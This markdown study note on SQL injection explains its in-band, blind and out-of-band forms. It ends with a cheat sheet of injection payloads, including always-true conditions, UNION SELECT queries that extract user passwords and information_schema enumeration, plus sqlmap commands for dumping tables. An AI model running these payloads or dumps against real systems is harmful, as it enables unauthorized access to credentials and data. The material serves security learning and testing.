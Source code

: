 # SQL Injection (SQLi)

SQL Injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It can lead to unauthorized access to sensitive data, such as passwords, credit card details, or personal user information.

## Types of SQL Injection

### In-band SQLi (Classic SQLi)

The attacker uses the same communication channel to launch the attack and gather results.
*   **Error-based SQLi:** The attacker crafts input that causes the database to produce error messages, revealing information about its structure.
*   **Union-based SQLi:** The attacker uses the `UNION` operator to combine the results of a legitimate query with a query of their own.

### Inferential SQLi (Blind SQLi)

The web application does not return the results of the malicious query directly. The attacker must infer the results by observing the application's behavior.
*   **Boolean-based SQLi:** The attacker sends a query that results in a true or false condition, which is reflected in the application's response (e.g., a different page is loaded).
*   **Time-based SQLi:** The attacker sends a query that instructs the database to wait for a specific amount of time. The response delay indicates whether the query was successful.

### Out-of-band SQLi

The attacker uses a different communication channel to exfiltrate data, such as making the server issue a DNS or HTTP request to a server the attacker controls.

## Common Payloads and Concepts

### Basic Injection
The most basic form of SQLi is to break out of a string literal and inject a condition that is always true.
*   `' or 1=1--`
*   `' or '1'='1`

### Union-based Injection
This is used to retrieve data from other tables.
*   `' UNION SELECT username, password FROM users--`

### Discovering Database Structure
In many database systems, you can query a data dictionary or information schema to get information about the database structure.
*   **Tables:** `' UNION SELECT table_name, null FROM information_schema.tables--`
*   **Columns:** `' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'--`

## SQLMap

SQLMap is an open-source tool that automates the process of detecting and exploiting SQL injection flaws. It is a powerful tool for penetration testers.

### Basic Usage
`sqlmap -u "http://vulnerable-website.com/product.php?id=1"`

### Common Options
*   `--dbs`: Enumerate databases.
*   `--tables -D <database>`: Enumerate tables in a database.
*   `--columns -T <table> -D <database>`: Enumerate columns in a table.
*   `--dump -C <columns> -T <table> -D <database>`: Dump data from a table.
*   `--batch`: Use default answers for all questions.
*   `--level=5 --risk=3`: Increase the number of checks performed.

## Cheatsheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

URL encoding:
https://www.w3schools.com/tags/ref_urlencode.ASP

- test' or 1=1--
- 1' and '1'='1'--
- 1' OR '1'='1'#
- 'UNION SELECT table_name, NULL FROM information_schema.tables #
- 'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users' #
- 'UNION SELECT user, password FROM users #
- 1 UNION SELECT user, password FROM users --
- 1%20+UNION+SELECT+user,password+FROM+users%23
- 'UNION SELECT user, password FROM users #